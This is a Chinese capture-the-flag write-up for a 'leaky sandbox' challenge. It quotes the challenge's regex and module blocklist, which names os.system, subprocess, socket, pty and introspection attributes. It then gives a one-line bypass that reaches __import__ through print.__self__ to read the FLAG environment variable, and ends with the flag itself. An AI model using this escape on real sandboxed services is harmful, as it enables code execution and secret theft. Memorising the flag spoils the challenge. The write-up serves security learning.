


# 漏风的沙箱

它是真的把代码隔离了，还是只用关键词和语法检查挡住了一些写法？显然是后者，因为 `app.py` 里有这种代码：

```python
dangerous_patterns = [
    r'\bos\.system\b',
    r'\bos\.popen\b',
    r'\bos\.spawn\b',
    r'\bos\.exec\b',
    r'\bos\.fork\b',
    r'\bsubprocess\b',
    r'\bcommands\b',
    r'\b__import__\s*\(',
    r'\beval\s*\(',
    r'\bexec\s*\(',
    r'\bcompile\s*\(',
    r'\bopen\s*\(',
    r'\bfile\s*\(',
    r'\b__builtins__\b',
    r'\bimport\s+os\b', # 关键
    r'\bimport\s+sys\b',
    r'\bimport\s+subprocess\b',
    r'\bimport\s+pymysql\b',
    r'\bimport\s+sqlite3\b',
    r'\bimport\s+requests\b',
    r'\bimport\s+urllib\b',
    r'\bimport\s+http\b',
    r'\bimport\s+socket\b',
    r'\bimport\s+ftplib\b',
    r'\bimport\s+telnetlib\b',
    r'\bimport\s+pickle\b',
    r'\bimport\s+cpickle\b',
    r'\bimport\s+marshal\b',
    r'\bimport\s+ctypes\b',
    r'\bimport\s+multiprocessing\b',
    r'\bimport\s+threading\b',
    r'\bimport\s+concurrent\b',
    r'\bimport\s+io\b',
    r'\bimport\s+shlex\b',
    r'\bimport\s+pty\b',
    r'\bimport\s+popen\b',
    r'\bimport\s+shutil\b',
    r'\bimport\s+platform\b',
    r'\bimport\s+cffi\b',
    r'\bimport\s+importlib\b',
    r'\bgetattr\s*\(.*__import__',
    r'\bgetattr\s*\(.*eval',
    r'\bgetattr\s*\(.*exec',
    r'\bsetattr\s*\(',
    r'\b__getattribute__\b',
    r'\b__setattr__\b',
]
COMPILED_PATTERNS = [re.compile(p) for p in dangerous_patterns]

BANNED_MODULES = [
    'os', 'sys', 'subprocess', 'pymysql', 'sqlite3',
    'requests', 'urllib', 'http', 'socket', 'ftplib', 'telnetlib',
    'pickle', 'cpickle', 'marshal', 'ctypes',
    'multiprocessing', 'threading', 'concurrent',
    'importlib', 'imp', 'builtins',
    'shlex', 'pty', 'popen', 'shutil', 'platform', 'cffi', 'io',
]

BANNED_FUNCTIONS = [
    'eval', 'exec', 'compile', '__import__',
    'getattr', 'setattr', 'delattr',
    'globals', 'locals', 'vars', 'dir', 'type',
    'input', 'open', 'file', 'execfile', 'reload',
]

BANNED_METHODS = [
    'system', 'popen', 'spawn', 'execv', 'execl', 'execve', 'execlp', 'execvp',
    'chdir', 'kill', 'remove', 'unlink', 'rmdir', 'mkdir', 'makedirs', 'removedirs',
    'read', 'write', 'readlines', 'writelines',
    'load', 'loads', 'dump', 'dumps',
    'get_data', 'get_source', 'get_code', 'load_module', 'exec_module',
]

DANGEROUS_ATTRIBUTES = [
    '__class__', '__base__', '__bases__', '__mro__', '__subclasses__',
    '__globals__', '__builtins__', '__getattribute__', '__getattr__',
    '__setattr__', '__delattr__', '__call__',
]
```

也就是说，类似于《渲染如呼吸一样简单》那一题，Python 的内置对象是可以访问的。那么首先想到的当然是 `os.environ.get("FLAG")` ，但显然我不能 `import os`，因为  `app.py` 里明令禁止了：

```
    r'\bimport\s+os\b',
```

测试也确实是这样，没有输出：



所以绕个弯子，由 `print` 出发，从 `__self__` 属性的词典里拉出 `__import__` 来，然后获取环境变量即可：

```python
print(print.__self__.__dict__.get("__import__")("os").environ.get("FLAG"))
```



最终得到 flag 为 `0xGame{7c459645-c508-4b84-aecc-f3894ddbf796}` 。